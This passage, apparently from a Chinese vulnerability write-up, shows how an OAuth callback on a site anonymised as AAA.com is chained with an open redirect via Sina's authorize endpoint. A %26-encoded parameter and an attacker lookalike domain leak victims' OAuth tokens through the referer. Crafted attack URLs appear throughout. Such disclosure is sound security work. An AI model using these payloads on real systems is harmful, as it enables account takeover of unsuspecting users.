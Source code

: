 服务器只获取到`https://account.AAA.com/?p=login_success`，即第一个&前面的参数及数据，剩下的都丢弃，最后返回
```
https://account.AAA.com/?p=login_success&oauth_token=64cefef639db56f825d14a52da67e0fc&oauth_verifier=637190`
```
这样当然不行，经过测试，要跳转需要的有效参数为`p`和`next`，二者缺一不可

如果修改为
```
http://api.t.sina.com.cn/oauth/authorize?oauth_token=7d5484c0f195334471a44b04ff5d3cf7&oauth_callback=https://account.AAA.com/?next=http://i.AAA.com.www.baidu.com/&p=login_success
```
还是会因为&的问题，最后返回
```
https://account.AAA.com/?next=http://i.AAA.com.www.baidu.com/&oauth_token=64cefef639db56f825d14a52da67e0fc&oauth_verifier=637190
```
因为少了`p=login_success`还是不能跳转成功

在这个地方卡了很久，实在没办法，想放弃然后直接找一个`account.AAA.com`域下的重定向漏洞，但是找到的都是要2个参数同时起作用，也就是要有`&`参与，最后肯定会有一个参数被丢弃导致不能跳转。

后来想了一下，碰碰运气，把`&`编码为`%26`，试了一下，居然成了！

即最后的链接是
```
http://api.t.sina.com.cn/oauth/authorize?oauth_token=7d5484c0f195334471a44b04ff5d3cf7&oauth_callback=https://account.AAA.com/?next=http://i.AAA.com.www.baidu.com/%26p=login_success
```

现在能正确跳转了，这时候又遇到一个问题了，在浏览器的规范中，https向http请求时是不会携带referer数据的，但黑客就是要通过referer参数来获取授权数据，这哪里行！

于是为了验证漏洞存在

我把`i.AAA.com.cp0.win`解析到192.30.253.112(这个是github的ip…)

所以你访问`https://i.AAA.com.cp0.win`实际上是访问`https://github.com`

源站是https，跳转后的站也是https，referer传输没问题了。

怎么找已经登录用户呢？bbs！

所以一切都通了。

黑客先在自己的浏览器访问`https://account.AAA.com/`
![13.png](C:\Users\todaro\Desktop\2018.1.20\13.png)
点击该按钮，获取到url中的`oauth_token`
![14.png](C:\Users\todaro\Desktop\2018.1.20\14.png)
`oauth_token=0645156deaa21088d5211897ab5fd332`

替换到下面的链接中，受害者访问如下链接
```
http://api.t.sina.com.cn/oauth/authorize?oauth_token=0645156deaa21088d5211897ab5fd332&oauth_callback=https://account.AAA.com/?next=https://i.AAA.com.itodaro.pw%26p=login_success
```
![15.png](C:\Users\todaro\Desktop\2018.1.20\15.png)
黑客成功获取到referer数据
